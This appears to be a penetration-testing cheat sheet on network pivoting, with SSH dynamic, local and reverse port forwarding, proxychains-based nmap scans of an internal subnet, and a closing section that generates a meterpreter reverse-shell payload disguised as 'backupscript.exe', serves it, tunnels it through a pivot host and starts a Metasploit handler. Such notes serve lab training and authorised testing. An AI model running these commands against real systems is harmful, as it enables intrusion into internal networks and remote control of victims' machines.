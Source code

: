 ### Pivoting
Enable Dynamic Port Forwarding with SSH
```shell
ssh -D 9050 ubuntu@10.129.202.64
```
Add line to `/etc/proxychains.conf`
```bash
socks4 	127.0.0.1 9050
```
Scan
```bash
proxychains -q nmap -v -sn 172.16.5.0/24
proxychains -q nmap -v -Pn -sT 172.16.5.19
```
This part of packing all your Nmap data using proxychains and forwarding it to a remote server is called `SOCKS tunneling`. One more important note to remember here is that we can only perform a `full TCP connect scan` over proxychains. The reason for this is that proxychains cannot understand partial packets. If you send partial packets like half connect scans, it will return incorrect results. We also need to make sure we are aware of the fact that `host-alive` checks may not work against Windows targets because the Windows Defender firewall blocks ICMP requests (traditional pings) by default.
### Local Port Forward
Forward local port `1234` to compromised host port `3306`
```shell
ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```
Forward to multiple ports
```shell
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```
Verify
```bash
netstat -antp | grep 1234
```
##### Port Forwarding via ~C
```shell
ssh dev@192.168.176.150 -i dev -o EnableEscapeCommandline=yes
```
Forward port
```shell
daniel@pandora:~$ ~C
ssh> -L 8000:127.0.0.1:80
```
Verify
```shell
ss -lntp | grep 8000
```
### Reverse Port Forward
Used for when you want to get a reverse shell on an internal machine but that machine can't reach your attacking host network
![[Pasted image 20250123064057.png]]
```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

```bash
python -m http.server 80
```

```shell
 ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@10.129.202.64 -vN
 
ssh -R 172.16.5.129:8888:0.0.0.0:443 -R 172.16.5.129:8080:0.0.0.0:80 ubuntu@10.129.152.229 -vN
```

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set LHOST 0.0.0.0; set LPORT 443; run'
```